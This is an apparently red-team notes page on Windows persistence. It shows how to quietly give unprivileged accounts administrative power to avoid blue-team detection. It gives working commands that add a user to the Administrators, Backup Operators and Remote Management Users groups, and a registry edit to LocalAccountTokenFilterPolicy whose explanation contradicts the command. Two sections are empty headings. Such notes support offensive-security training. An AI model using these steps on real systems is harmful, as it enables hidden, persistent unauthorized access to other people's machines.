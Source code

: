 # make Unprivileged users to have cirtical access
Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.


## Assign Group Memberships
- **Administrator Group**:
```ps1
# make it part of the Administrators group But this looks too suspicious
net localgroup administrators <Unpriv-username> /add
```
- **BackupOperators Group**:
```ps1
#  make it part of the BackupOperators group. Users in this group will be allowed to read/write any file or registry key, ignoring DACL
net localgroup "Backup Operators" <Unpriv-username> /add
# it still cannot RDP or WinRM back to the machine, we add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM) groups
net localgroup "Remote Management Users" <Unpriv-username> /add
# we are a part of Backup Operators, but the group is disabled, we'll have to disable LocalAccountTokenFilterPolicy: 
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## Special Privileges and Security Descriptors

## RID Hijacking
